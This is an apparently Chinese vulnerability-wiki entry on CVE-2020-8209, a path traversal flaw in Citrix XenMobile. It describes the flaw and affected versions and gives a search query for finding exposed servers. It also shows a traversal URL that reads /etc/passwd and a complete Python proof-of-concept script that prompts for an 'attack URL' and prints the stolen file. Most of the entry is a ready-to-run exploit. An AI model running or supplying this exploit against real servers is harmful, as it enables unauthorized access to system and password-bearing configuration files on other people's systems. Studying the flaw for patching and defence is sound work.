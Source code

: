 # Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 漏洞影响

```
RP2之前的XenMobile服务器10.12
RP4之前的XenMobile服务器10.11
RP6之前的XenMobile服务器10.1010.9
RP5之前的XenMobile服务器
```

## 网络测绘

```
title="XenMobile"
```

## 漏洞复现

访问 [**http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd**](http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd) 可以成功下载**/etc/passwd**文件

![](images/202202102005303.png)



## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Citrix XenMobile                                          \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-8209.py                                  \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 含有CVE-2020-8209漏洞，成功读取/etc/passwd\033[0m\n{} ".format(response.text))
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >		>> \033[0m"))
    POC_1(target_url)
```
